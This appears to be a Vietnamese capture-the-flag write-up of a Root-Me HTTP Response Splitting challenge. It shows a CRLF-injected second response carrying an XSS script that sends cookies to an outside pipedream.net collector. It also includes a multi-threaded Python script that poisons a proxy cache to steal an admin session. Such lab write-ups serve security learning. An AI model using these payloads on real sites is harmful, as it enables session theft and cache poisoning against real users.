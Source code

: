 # HTTP Response Splitting

Lưu ý: trước khi giải bài này thì bạn cần phải biết về cách thức tấn công này để có thể thực hiện tấn công thành công. Bạn có thể đọc ở [đây](http://www.moqifei.com/archives/609). Mình đã đọc qua một vài trang viết về HTTP Response Splitting và trang web vừa rồi là trang web viết rõ nhất và dễ hiểu nhất.

Khi mở trang web lên thì mình nhận được yêu cầu phải chọn ngôn ngữ.

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_1.png)

Thông qua việc tìm hiểu các tài liệu về HTTP Response Splitting, mình biết rằng mình có thể kiểm tra xem trang web có thể bị inject không  bằng việc sử dụng CLRF injection (sử dụng các kí tự `\r\n` để tạo xuống dòng trong request). Mình đã thử sử dụng và thêm vào 1 trường test=true. Sau khi kiểm tra response thì mình thấy dưới trường Set-Cookie của response có thêm trường test=true, tức là mình có thể thực hiện inject được.

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_2.PNG)

Mình viết thêm đoạn payload như sau:

```
\r\nContent-Length: 0
\r\n
\r\nHTTP/1.1 200 OK
\r\nContent-Type: text/html
\r\nLast-modified: Thu, 01, Jan 2100 12:00:00 GMT
\r\nContent-Length: 138
\r\n
\r\n<script>document.write("<h1>test</h1><img src=http://eoyoae37hp6q6ss.m.pipedream.net".concat(document.cookie).concat(" />"))</script>

```

Ở đây, dòng Content-Length đầu tiên mình gán giá trị bằng 0, tức là inject vào gói response của server để kết thúc response thứ nhất. Sau đó mình viết thêm response thứ 2 cùng đoạn script để thực hiện XSS, gửi dữ liệu về 1 trang web thứ 3 và mình sẽ chờ ở đó để lấy dữ liệu. Last-modified mình set thành 1 giá trị khá lớn để tránh việc cập nhật lại cache của proxy, làm cho việc inject không thành công. Sau đó thực hiện encode url cho payload và gửi cho server.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_3.png)

Gửi request và thấy rằng mình đã tạo được 2 response thành công. Tuy nhiên nếu chú ý kĩ thì ở phần response của server trả về có trường Location.

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_4.png)

Trường này sẽ chỉ định việc redirect về trang /home, và việc này diễn ra rất nhanh, vì vậy không thể thực hiện exploit thành công được. Vì theo mình hiểu thì HTTP response splitting hoạt động dựa vào việc attacker gửi 1 request có kèm payload để nhận về 2 response, 1 response sẽ trả về cho attacker, còn lại 1 response sẽ lưu trữ trên cache của proxy. Lúc này nếu 1 request khác bất kì kết nối đến trong lúc cache còn lưu trữ response kia thì nó sẽ tự động ánh xạ response này cho tất cả các request tương tự. Trong bài này thì attacker sẽ gửi 1 request có kèm payload, sau đó nhận về 2 response, 1 response sẽ được lưu trữ lại trên cache là response thứ 2 (HTTP/1.1 200 OK). Sau đó hắn gửi 1 request tới /admin, response còn lại sẽ được ánh xạ vào request này, tức là từ lúc đó về sau các request tới /admin đều sẽ nhận được response HTTP/1.1 200 OK của attacker dẫn tới việc bị dính đoạn code XSS. Lúc này khi admin vào /admin thì cũng sẽ bị ảnh hưởng tương tự.

Tuy nhiên nhờ vào trường Location có trong http response thì trình duyệt sẽ tự động nhảy về /home ngay lập tức, dẫn tới việc attacker không thể gửi request thứ 2 tới /admin kịp. Vì vậy để exploit thành công thì mình đã viết 1 đoạn code sử dụng multi-threading để có thể gửi request thứ 2 tới /admin trước khi bị chuyển hướng về /home.

```python

import requests
import threading

poisoned_url = "http://challenge01.root-me.org:58002/user/param?lang=en%0D%0AContent-%20Length%3A%200%0D%0A%0D%0AHTTP%2F1.1%20200%20OK%0D%0AContent-Type%3A%20text%2Fhtml%0D%0ALast-modified%3A%20Thu%2C%2001%20Jan%202100%2012%3A00%3A00%20GMT%20%0D%0AContent-Length%3A%20134%0D%0A%0D%0A%3Cscript%3Edocument.write%28%22%3Ch1%3EEXP%3C%2Fh1%3E%3Cimg%20src%3Dhttps%3A%2F%2Feoyoae37hp6q6ss.m.pipedream.net%3F%22.concat%28document.cookie%29.concat%28%22%20%2F%3E%22%29%29%3C%2Fscript%3E"
admin_url = "http://challenge01.root-me.org:58002/admin"
header = {"Pragma":"no-cache"}
cookies = {"user_session":"Your session"}

def poison_func():
	i=0
	while i<1000:
		print("i=" + str(i))
		requests.get(url=poisoned_url,headers=header,cookies=cookies)
		i+=1

def access_func():
	j=0
	while j<1000:
		print("j=" + str(j))
		requests.get(url=admin_url,headers=header,cookies=cookies,allow_redirects=False)
		j+=1

try:
	t1 = threading.Thread(target=poison_func)
	t2 = threading.Thread(target=access_func)
	t3 = threading.Thread(target=poison_func)
	t4 = threading.Thread(target=access_func)
	t1.start()
	t2.start()
	t3.start()
	t4.start()
except:
	print("Error")


```

Chương trình mình viết bao gồm 2 function, 1 để poison cache của proxy bằng việc gửi 1000 payload để inject và 1 để gửi request tới /admin làm cho việc inject thành công. Để chắc chắn mình đã cho 4 luồng chạy song song. Các bạn nhớ thay thế phần url ở biến poisoned_url thành payload của bạn. Đối với user_session cũng tương tự.

Chạy chương trình và đợi 1 khoảng thời gian sau đó để admin ghé thăm /admin thì mình nhận thấy việc inject đã thành công vì đã có 1 request gửi tới trang RequestBin chứa session của admin.

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_5.PNG)

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/HTTPRessplit_6.png)

Đem admin session vừa lấy được đem submit và giải được bài này.

![anh7](https://github.com/quochuyy10217/MyCTFWriteups/blob/main/rootme/img_src/HTTPRessplit_7.png)